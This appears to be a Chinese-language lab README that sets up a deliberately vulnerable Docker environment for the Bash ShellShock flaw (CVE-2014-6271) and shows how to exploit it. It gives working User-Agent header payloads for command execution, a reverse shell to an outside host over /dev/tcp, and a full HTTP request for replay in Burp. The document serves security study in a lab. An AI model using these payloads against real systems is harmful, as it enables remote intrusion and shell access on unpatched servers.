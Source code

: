 ## Bash ShellShock CVE-2014-6271(破壳)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:b_bash_shellshock1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:80 medicean/vulapps:b_bash_shellshock1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址/cgi-bin/poc.cgi`，通过 Burp 截包，修改 HTTP 请求头中 UA 字段：

* 命令执行

 ```
User-Agent: () { :;};echo ; echo; echo $(/bin/ls -al /);
 ```

* 反弹 Shell 到 192.168.0.112 8888端口:

 ```
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.0.112/8888 0>&1;
 ```


完整的请求报文如下(可直接复制到 Burp 下重放)：

```
GET /cgi-bin/poc.cgi HTTP/1.1
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: () { :;};echo ; echo; echo; echo $(/bin/ls -al / );
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6


```

> 注意：部分嵌入式设备的环境变量未设置会导致一些命令需要使用绝对路径，可在执行命令前导入环境变量

eg:

```
User-Agent: () { :;};echo ; echo; export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; echo $(/bin/ls -al /);
```

### 改动日志

20170103

 * 添加 PATH 说明 

20160731

 * 修正资源为本地路径
